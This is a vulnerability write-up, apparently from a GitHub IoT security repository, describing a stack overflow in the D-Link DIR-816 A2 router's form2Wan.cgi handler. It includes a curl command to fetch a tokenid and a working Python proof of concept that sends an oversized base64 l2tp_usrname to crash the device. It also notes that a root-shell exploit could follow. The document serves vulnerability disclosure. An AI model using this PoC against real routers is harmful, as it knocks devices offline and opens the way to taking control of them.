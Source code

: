 # D-link DIR-816 A2_v1.10CNB04.img Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/form2Wan_cgi/img/vuln1.png)

Vulnerability occurs in /goform/form2Wan.cgi, When wantype is 3, l2tp_usrname will be decrypted by base64, and the result will be stored in v94, which does not check the size of l2tp_usrname, resulting in stack overflow

## Poc

The first thing you need to do is to get the tokenid
```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc

```python
import requests
import base64

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = 'xxxx'

url = 'http://192.168.0.1/goform/form2Wan.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid' : tokenid,
    'wantype' : '3',
    'l2tp_usrname' : payload,
    'l2tp_psword' : payload
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
```

You can see the router crash, and finally you can write an exp to get a root shell
